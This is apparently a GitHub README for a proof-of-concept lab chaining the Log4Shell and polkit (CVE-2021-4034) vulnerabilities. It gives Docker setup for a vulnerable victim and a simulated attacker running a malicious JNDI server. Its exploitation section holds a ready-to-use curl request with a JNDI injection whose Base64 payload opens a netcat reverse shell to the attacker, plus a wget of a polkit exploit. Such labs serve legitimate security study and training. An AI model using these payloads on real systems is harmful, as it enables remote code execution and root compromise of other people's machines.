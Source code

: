#  log4j CVE-2021-44228 + polkit CVE-2021-4034
Vulnerable instance for the log4j apache exploit and privilege escalation using polkit
- The vulnable spring-boot-application.jar was extracted from [this docker image](https://hub.docker.com/r/andylibrian/log4shell-vulnerable-app/tags)
- The malicious JNDI server was downloaded from [here](https://log4j-knox.s3.amazonaws.com/JNDIExploit-1.2-SNAPSHOT.jar) and referenced in [this article](https://github.com/kubearmor/log4j-CVE-2021-44228).

## creating the vulnerable instances

### log4j-polkit-vuln
The vulnerable instance will be running and listening for connections on port 80 (exposed to the host machine) on completion of the steps below. The vulnerable part for the log4j exploit is the X-Api-Version header that is sent to the server.

Docker: [log4j-polkit-vulnerable-server](https://hub.docker.com/r/0xalwayslucky/log4j-polkit-vulnerable-server)

steps to pull & run the vulnerable docker image:
```bash
docker pull 0xalwayslucky/log4j-polkit-vulnerable-server
docker run -p 80:8080 0xalwayslucky/log4j-polkit-vulnerable-server
```

steps to create a vulnerable instance for log4j + polkit manually:
> Note: the Dockerfiles require certain versions of the vulnerable applications to be present within the ubuntu repositories. If these get updated and/or removed on any given time the docker image will fail to build. To solve this an image will be uploaded to the docker hub and linked here.
```bash
git clone https://github.com/0xalwayslucky/log4j-polkit-poc
cd log4j-polkit-vuln
docker build -t log4j-polkit-vulnerable-server .
docker run -p 80:8080 --hostname victim log4j-polkit-vulnerable-server
```

### attackserver
This will simulate the attackers machine, in this case present within the same network (due to easy communication between docker containers), but the exploit works no matter where this attack server is situated (only condition is that it is accessible by the victim). The malicious JNDI server will be hosted on here and create a malicious class to execute arbitrary commands on the victims machine.

steps to create a simulated attacker machine:
```bash
git clone https://github.com/0xalwayslucky/log4j-polkit-poc
cd attackserver
docker build -t attackserver .
docker run -it --hostname attackserver attackserver /bin/bash
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i <ip> -p 8888 &  # in the docker container
```

## exploitation
commands from the poc-video
> Note: IP address of the attackserver might vary
```
# Log4j exploit
curl http://localhost -H 'X-Api-Version: ${jndi:ldap://172.17.0.3:1389/Basic/Command/Base64/bmMgMTcyLjE3LjAuMyA0NDQ0IC1lIC9iaW4vYmFzaA==}'

# Polkit exploit
wget https://raw.githubusercontent.com/afwu/CVE-2021-4035/main/cve-2021-4034-poc.c

```
